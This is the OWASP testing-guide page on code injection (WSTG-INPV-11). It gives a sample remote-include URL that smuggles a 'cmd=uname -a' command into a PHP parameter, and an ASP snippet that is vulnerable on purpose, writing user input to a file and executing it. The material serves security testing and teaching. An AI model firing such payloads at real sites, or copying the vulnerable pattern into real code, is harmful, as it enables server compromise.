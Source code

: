 # Testing for Code Injection

|ID          |
|------------|
|WSTG-INPV-11|

## Summary

This section describes how a tester can check if it is possible to enter code as input on a web page and have it executed by the web server.

In [Code Injection](https://owasp.org/www-community/attacks/Code_Injection) testing, a tester submits input that is processed by the web server as dynamic code or as an included file. These tests can target various server-side scripting engines, e.g.., ASP or PHP. Proper input validation and secure coding practices need to be employed to protect against these attacks.

## How to Test

### Black-Box Testing

#### Testing for PHP Injection Vulnerabilities

Using the querystring, the tester can inject code (in this example, a malicious URL) to be processed as part of the included file:

`http://www.example.com/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a`

> The malicious URL is accepted as a parameter for the PHP page, which will later use the value in an included file.

### Gray-Box Testing

#### Testing for ASP Code Injection Vulnerabilities

Examine ASP code for user input used in execution functions. Can the user enter commands into the Data input field? Here, the ASP code will save the input to a file and then execute it:

```asp
<%
If not isEmpty(Request( “Data” ) ) Then
Dim fso, f
'User input Data is written to a file named data.txt
Set fso = CreateObject(“Scripting.FileSystemObject”)
Set f = fso.OpenTextFile(Server.MapPath( “data.txt” ), 8, True)
f.Write Request(“Data”) & vbCrLf
f.close
Set f = nothing
Set fso = Nothing

'Data.txt is executed
Server.Execute( “data.txt” )

Else
%>

<form>
<input name="Data" /><input type="submit" name="Enter Data" />

</form>
<%
End If
%>)))
```

### References

- [Security Focus](http://www.securityfocus.com)
- [Insecure.org](http://www.insecure.org)
- [Wikipedia](http://www.wikipedia.org)
- [Reviewing Code for OS Injection](https://wiki.owasp.org/index.php/OS_Injection)

[Back to previous section](./)